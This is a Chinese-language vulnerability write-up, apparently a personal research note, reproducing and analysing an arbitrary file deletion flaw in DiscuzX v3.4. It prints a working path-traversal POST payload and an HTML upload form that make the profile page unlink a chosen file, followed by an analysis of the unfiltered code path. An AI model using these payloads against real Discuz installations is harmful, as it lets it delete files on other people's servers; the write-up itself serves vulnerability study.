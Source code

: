 @Author：Y4tacker

@time：2021/002/22 15:22 PM

# DiscuzX v3.4 任意文件删除漏洞

# 利用过程

继续分析一篇，首先把利用流程试一遍，这次不先分析，先尝试一遍，首先在web根目录下建立一个文件，这里我以`y4.txt`作为例子

第一步:注册一个账户并登录，访问http://yyy.com/home.php?mod=spacecp&ac=profile页面也就是个人设置中心，先找到这个hash值

![](pic/1.png)

之后我们利用hackbar构造数据包post

```php
http://yyy.com/home.php?mod=spacecp&ac=profile&op=base

post
birthprovince=../../../y4.txt&profilesubmit=1&formhash=7cfeeea5
```

此时若执行成功，则会有

![](pic/2.png)

接下来构造表单

```php
<form action="http://yyy.com//home.php?mod=spacecp&ac=profile&op=base" method="POST" enctype="multipart/form-data">
<input type="file" name="birthprovince" value="../../../y4.txt"/>
<input type="hidden" name="formhash" value="7cfeeea5"/>
<input type="hidden" name="profilesubmit" value="1"/>
<input type="submit" value="Submit"/>
</from>
```

随便选一个图片上传，之后会发现根目录下的y4.txt已经被删除了

## 分析

关键利用点是下面的unlink函数，$key值很好找，能看到就说foreach循环取得上传表单当中的键

![](pic/3.png)

而这个$space变量回溯上去则是个人信息的部分，第24-26行会将用户相关的信息通过数据库提取出来保存到变量$space中，到这里我们也不难知道之前我们是用`birthdayprovince`测试的，其实其他变量都可以，这里不做掩饰了

![](pic/4.png)

接下来我们看看是如何到达`unlink`部分的，PHP`*$_FILES* `是一个预定义的数组,用来获取通过 POST 方法上传文件的相关信息

![](pic/5.png)

因此只要我们通过文件上传即可到达这里了，来看看我们之前构造的表单

```php
<form action="http://yyy.com//home.php?mod=spacecp&ac=profile&op=base" method="POST" enctype="multipart/form-data">
<input type="file" name="birthprovince" value="../../../y4.txt"/>
<input type="hidden" name="formhash" value="7cfeeea5"/>
<input type="hidden" name="profilesubmit" value="1"/>
<input type="submit" value="Submit"/>
</from>
```

foreach的$key与$value也就分别对应了表单当中的name与value，并且对value没有过滤条件从而实现了任意文件的删除

我们最后梳理一遍利用流程

> 1. 设置birthprovince(或者其他个人参数)为要删除的文件，比如../../y4.txt
> 2. 上传文件，构造$key 为 birthprovince。
> 3. space[space[key] = $space[birthprovince] =
> 4. 拼接后 unlink(getglobal(XXX/profile/../../y4.txt) 达到任意文件删除。

分析结束，比较简单的一篇